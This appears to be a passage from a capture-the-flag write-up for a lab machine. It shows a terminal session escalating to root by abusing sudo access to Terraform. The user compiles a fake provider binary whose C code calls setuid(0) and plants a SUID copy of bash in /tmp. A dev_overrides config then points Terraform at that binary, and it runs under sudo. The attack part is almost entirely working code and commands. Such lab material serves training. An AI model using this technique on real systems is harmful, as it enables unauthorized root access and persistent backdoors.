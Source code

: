 * [Terraform-config-environment-variables](https://developer.hashicorp.com/terraform/cli/config/environment-variables)

Try out this one: `export TF_CLI_CONFIG_FILE="$HOME/.terraformrc-custom"`

```console

jeremy@previous:~$ mkdir backdoor
jeremy@previous:~$ cd backdoor/
jeremy@previous:~/backdoor$ cat > terraform-provider-examples_v0.1_linux_amd64.c << 'EOF'
> #include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
    setuid(0);
    setgid(0);
    system("cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash");
    return 0;
}
> EOF
jeremy@previous:~/backdoor$ gcc -o terraform-provider-examples_v0.1_linux_amd64 terraform-provider-examples_v0.1_linux_amd64.c
jeremy@previous:~/backdoor$ cat > dev.tfrc << 'EOF'
> provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/home/jeremy/backdoor"
  }
  direct {}
}
> EOF
jeremy@previous:~/backdoor$ export TF_CLI_CONFIG_FILE=/home/jeremy/backdoor/dev.tfrc
jeremy@previous:~/backdoor$  echo $TF_CLI_CONFIG_FILE
/home/jeremy/backdoor/dev.tfrc
jeremy@previous:~/backdoor$ sudo /usr/bin/terraform -chdir=/opt/examples apply
╷
│ Warning: Provider development overrides are in effect
│ 
│ The following provider development overrides are set in the CLI configuration:
│  - previous.htb/terraform/examples in /home/jeremy/backdoor
│ 
│ The behavior may therefore not match any released version of the provider and applying changes may cause the state to become
│ incompatible with published releases.
╵
╷
│ Error: Failed to load plugin schemas
│ 
│ Error while loading schemas for plugin components: Failed to obtain provider schema: Could not load the schema for provider
│ previous.htb/terraform/examples: failed to instantiate provider "previous.htb/terraform/examples" to obtain schema: Unrecognized
│ remote plugin message: 
│ Failed to read any lines from plugin's stdout
│ This usually means
│   the plugin was not compiled for this architecture,
│   the plugin is missing dynamic-link libraries necessary to run,
│   the plugin is not executable by this process due to file permissions, or
│   the plugin failed to negotiate the initial go-plugin protocol handshake
│ 
│ Additional notes about plugin:
│   Path: /home/jeremy/backdoor/terraform-provider-examples_v0.1_linux_amd64
│   Mode: -rwxrwxr-x
│   Owner: 1000 [jeremy] (current: 0 [root])
│   Group: 1000 [jeremy] (current: 0 [root])
```